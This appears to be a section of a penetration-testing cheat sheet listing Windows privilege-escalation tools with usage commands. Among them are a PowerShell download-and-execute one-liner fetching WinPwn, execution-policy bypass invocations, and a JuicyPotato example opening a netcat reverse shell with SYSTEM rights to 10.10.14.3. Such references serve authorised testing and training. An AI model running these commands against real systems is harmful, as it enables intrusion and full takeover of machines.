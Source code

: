 ## Privilege Escalation (Windows)

[PrivescCheck](https://github.com/itm4n/PrivescCheck) Powershell script used to identify Local Privilege Escalation (LPE) vulnerabilities that are usually due to Windows configuration issues, or bad practices. \
Usage: Place the script on the Windows victim and run this for a basic check:
```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```
All checks and reports:
```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML,CSV,XML"
```

[WinPwn](https://github.com/S3cur3Th1sSh1t/WinPwn) An all around script with many useful windows attacks. Either run it from the cloned folder by importing it:
```
Import-Module .\WinPwn.ps1
```
Or download and execute from:
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1'
```

[WinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) Script used to check for common privilege escalation vulnerabilities on a target system.

[Juicy Potato](https://github.com/ohpe/juicy-potato/blob/master/README.md) A very well-known privilege escalation tool. JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, RoguePotato and SharpEfsPotato can be used to leverage the same privileges and gain NT AUTHORITY\SYSTEM. An example would be:
```
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *
```

[Rogue Potato](https://github.com/antonioCoco/RoguePotato)

[SharpefsPotato](https://github.com/bugch3ck/SharpEfsPotato)

[Windows Exploit Suggestor](https://github.com/bitsadmin/wesng)

[Windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check) Application that tries to find misconfigurations that could allow local unprivileged users to escalate privileges.

[SharpUp](https://github.com/GhostPack/SharpUp) C# PowerUp alternative.

[Mimikatz](https://github.com/ParrotSec/mimikatz) Well-known exploit tool. 

[Watson](https://github.com/rasta-mouse/Watson) Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) This script will run all common areas of misconfiguration that allow for a regular user to get a local administrative or system account.
